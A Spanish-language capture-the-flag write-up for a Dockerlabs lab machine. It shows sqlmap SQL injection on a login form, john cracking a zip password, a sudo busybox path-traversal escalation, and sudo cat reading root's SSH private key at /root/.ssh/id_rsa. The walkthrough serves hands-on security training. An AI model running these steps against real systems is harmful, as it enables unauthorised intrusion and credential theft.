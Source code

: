 Maquina nivel medio de [Dockerlabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![dockerlabs](./imagenes/dockerlabs.png)

# INTRUSION

Comenzamos entrando por el navegador a la ip `172.17.0.2`

#### PUERTO 80:

![80](./imagenes/80.png)

Al parecer es una web para practicar hacking, de todo lo que dice, lo interesante es "Desafíos de SQL Injection", ya que hay un panel de login.

Para la inyeccion sql podemos usar sqlmap guardandonos la peticion al iniciar sesion. Para hacerlo capturamos y guardando la peticion con burpsuite, para guardarla damos click derecho en la peticion y tocamos donde dice `Copy to file` y lo guardamos con el nombre que queramos.

Luego ejecutamos el siguiente comando:

```css
sqlmap -r request --dump -batch --level 5 -risk 3
```

Sqlmap nos encuentra varios usuarios y contraseñas, pero lo unico que nos interesa es la password `no_mirar_en_este_directorio`, por lo que entramos del navegador y vemos un zip el cual nos descargamos.

Al intentar descomprimirlo nos pide una contraseña, entonces tendremos que sacar el hash con `zip2john` y luego intentar crackear la contraseña usando `john`. Luego de capturar el hash ejecutaremos el siguiente comando para crackear la contraseña:

```css
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```ruby
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (secret.zip/confidencial.txt)     
1g 0:00:00:00 DONE (2024-08-18 20:10) 33.33g/s 136533p/s 136533c/s 136533C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora si teniendo la contraseña vamos a descomprimir el zip y nos deja un archivo que se llama `confidencial.txt`, lo leemos y vemos lo siguiente:

```css

You have to change your password ralf, I have told you many times, log into your account and I will change your password.

Your new credentials are:

ralf:-------------

```

Asi que teniendo el usuario y contraseña nos conectamos mediante ssh.

# ESCALADA DE PRIVILEGIOS

## RALF

Siendo el usuario ralf vemos que podemos ejecutar con `sudo -l` y vemos lo siguiente:

```ruby
ralf@b09cee7bd1c1:~$ sudo -l
Matching Defaults entries for ralf on b09cee7bd1c1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User ralf may run the following commands on b09cee7bd1c1:
    (capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*
ralf@b09cee7bd1c1:~$ 

```

Para poder escalar privilegios me fijé en [GTFOBins](https://gtfobins.github.io/) pero nuestro caso es distinto, entonces tendremos que hacer lo siguiente:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/ls /home/capa
```

esto nos muestra que hay un archivo llamado `passwd.txt` por lo que ahora lo leeremos ejecutando:

```css
sudo -u capa /usr/local/bin/busybox /nothing/../../../../bin/cat /home/capa/passwd.txt
```

Habiendo hecho esto ya tendremos la contraseña del usuario capa.

## CAPA

Siendo capa ejecutamos `sudo -l` y vemos que podemos ejecutar como root el binario cat. Entonces luego de fijarme nuevamente en [GTFOBins](https://gtfobins.github.io/), veo que puedo leer archivos del sistema, entonces haremos lo siguiente:

```css
LFILE=/root/.ssh/id_rsa
```

y lo leemos con:

```css
sudo cat "$LFILE"
```

Esto nos dará la clave privada del ssh del usuario root, ahora nos la guardaremos en nuestra maquina local como `id_rsa` y le damos permisos con `chmod 600`, luego ponemos `ssh -i id_rsa root@172.17.0.2` y listo, somos root.

![root](./imagenes/root.png)

Esta maquina tiene flags. Chau....

